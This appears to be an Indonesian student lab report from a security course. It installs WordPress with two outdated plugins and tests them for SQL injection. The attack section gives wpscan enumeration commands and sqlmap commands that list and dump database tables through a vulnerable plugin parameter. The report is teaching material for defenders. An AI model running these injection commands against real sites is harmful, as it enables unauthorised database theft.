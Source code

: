 # Laporan Tugas 2 PKSJ
## Pendahuluan
Laporan ini dibuat sebagai tugas 2 dari mata kuliah Peracangan Keamanan dan Sekuritas Jaringan. Pada laporan ini terdapat penjelasan-penjelasan dan hasil percobaan SQL Injection yang kami lakukan. 
Laporan ini disusun oleh :
Setiyo Adiwicaksono		:5113100020
Fajar Ade Putra			:5113100092
Anwar Rosyidi			:5113100180

## Dasar Teori
### OS yan digunakan
1.  Ubuntu Server 14.04 : Ubuntu server adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS.
2.   Kali Linux adalah generasi baru dari BackTrack Linux, pemimpin industri Penetration Testing dan audit keamanan distribusi Linux. Kali Linux merupakan pembangunan kembali dari BackTrack Linux dari dasar dan mengikuti sepenuhnya standar pengembangan Debian.

### Tools yang digunakan
1. SSH Server :SSH adalah akronim dari Secure Shell yang merupakan sebuah protokol jaringan yang memanfaatkan kriptografi untuk melakukan komunikasi data pada perangkat jaringan agar lebih aman. Dalam konsepnya penggunaan SSH ini harus di dukung oleh server maupun perangkat atau komputer klien yang melakukan pertukaran data. Keduanya harus memiliki SSH server dari sisi komputer server dan SSH klien untuk komputer penerima (klien).
2. WordPress adalah sebuah aplikasi sumber terbuka (open source) yang sangat populer digunakan sebagai mesin blog (blog engine). WordPress dibangun dengan bahasa pemrograman PHP dan basis data (database) MySQL. PHP dan MySQL, keduanya merupakan perangkat lunak sumber terbuka (open source software).
3. Plugin-plugin di Wordpress

## Uji coba
## Instalasi Wordpress
1. Pertama, lakukan koneksi ssh dengan server
```
ssh server@192.168.56
```
2. Lakukan instalasi apache server
```
sudo apt-get install apache2
```
![GitHub Logo](PKSJ2/apache.JPG)

3. Install database mysql
```
sudo apt-get install mysql-server php5-mysql
```
```
sudo mysql_install_db
```
```
sudo mysql_secure_installation
```
4. Install PHP
```
sudo apt-get install php5 libapache2-mod-php5 php5-mcrypt
```
untuk mengetahui apabila php sudah terinstall silahkan buat file php di var/www/html/ 
![GitHub Logo](PKSJ2/php.JPG)

5. Buat database untuk wordpress
	- log in ke dalam mysql root
```
mysql -u root -p
```
	-  Buat database wordpress
```
CREATE DATABASE wordpress;
```
	- buat user untuk akses database
```
CREATE USER wordpressuser@localhost IDENTIFIED BY 'password';
```
	- Berikan privileges akses kepada akun db yang kita buat
```
GRANT ALL PRIVILEGES ON wordpress.* TO wordpressuser@localhost;
```
```
FLUSH PRIVILEGES;
exit
```

## Download wordpress
1. Lakukan download wordpress dengan memasukan syntax
```
cd ~
wget http://wordpress.org/latest.tar.gz
```
![GitHub Logo](PKSJ2/dwwp.JPG)
2. Kemudian extract hasil download
```
tar xzvf latest.tar.gz
```
3. Install package yang diperlukan 
```
sudo apt-get update
sudo apt-get install php5-gd libssh2-php
```
## Konfigurasi wordpress
1. Buka directory wordpress
```
cd ~/wordpress
```
2. Membuat backup file config wordpress
```
cp wp-config-sample.php wp-config.php
```
3. buka wpconfig untuk melakukan konfigurasi database
```
nano wp-config.php
```
![GitHub Logo](PKSJ2/setingwp.JPG)

4. copy file yang ada pada directory wordpress ke document root
```
sudo rsync -avP ~/wordpress/ /var/www/html/
```
5. buka document root dan rubah ownership file wordpress
```
cd /var/www/html
sudo chown -R demo:www-data *
```
6. kemudian kita buat folder uploads pada document root dan rubah ownershipnya
```
mkdir /var/www/html/wp-content/uploads
sudo chown -R :www-data /var/www/html/wp-content/uploads
```
7. Selanjutnya lakukan konfigurasi dengan membuka halaman wordpress yang telah kita install
![GitHub Logo](PKSJ2/setwp.JPG)
![GitHub Logo](PKSJ2/setsuk.JPG)
8. Proses instalasi selesai dan kita bisa membuka halaman wp-admin
![GitHub Logo](PKSJ2/wpadmin.JPG)
### Hasil halaman wordpress yang berhasil diinstall
![GitHub Logo](PKSJ2/sip.JPG)

## Instalasi Plugin Wordpress
1. Download plugin yang ingin di install secara manual

2. Untuk kuliah PKSJ ini download plugin yang ingin digunakan di https://www.exploit-db.com yaitu:
	- Video Player 1.5.16
	- LeagueManager 3.9.11

3. Silahkan buka bagian **wp-admin** dan silahkan buka bagian menu plugin. Lalu silahkan tekan tombol bagian **Add New**
![GitHub Logo](PKSJ2/plugin.JPG)

4. Silahkan tekan tombol upload plugin untuk mengupload plugin yang kita download secara external, ataupun langsung di search pada kolom serch plugin. 

5. Setelah muncul tombol browse, silahkan pilih plugin mana yang ingin di install, dan silahkan langsung di install
![GitHub Logo](PKSJ2/plugin1.JPG)

## Exploit Wordpress Menggunakan Tools SQLMAP dan WPSCAN
### Exploit Wordpress menggunakan WPscan
Fungsi penggunaan wpscan dalam exploit kali ini adalah untuk mendeteksi celah keamanan dari sebuah web berbasis wordpress. Penggunaan wpscan adalah jalankan kode dibawah dengan terminal.
```
wpscan --url http://[url yang dituju] -enumerate
```
Maka akan muncul tanda yang menunjukan celah keamanan dari plugin yang sudah di install pada wordpress
![GitHub Logo](PKSJ2/wpscan.JPG)

###Exploit dan Inject Sql menggunakan Sqlmap
####Inject Melalui League Manager
1. Silahkan jalankan perintah dibawah ini untuk mengetahui bagaimana struktur tabel dari wordpress yang ada
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --tables
```
![GitHub Logo](PKSJ2/sqlmaplm1.JPG)

2. Ketika kita ingin mengetahui bagaimana isi dari tabel yang kita inginkan, silahkan jalankan script dibawah ini
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]
```
![GitHub Logo](PKSJ2/sqlmaplm2.JPG)

3. Ketika sudah mendapatkan data nya 


##Kesimpulan
Dari hasil uji coba penetrasi SQL Injection didapatkan bahwa masih terdapat celah-celah yang dapat ditembus, kita dapat melakukan SQL Injection melalui celah yang terdapat pada plugin yang belum update walaupun wordpress sudah paling update terbaru.

##Saran
Periksalah update-update pada wordpress dan pluginya secara berkala, jika terdapat update pada wordpress dan plugin-plugin yang terinstall, segeralah untuk melakukan update karena celah-celah SQL Injection bisa terdapat pada plugin yang belum update tersebut.
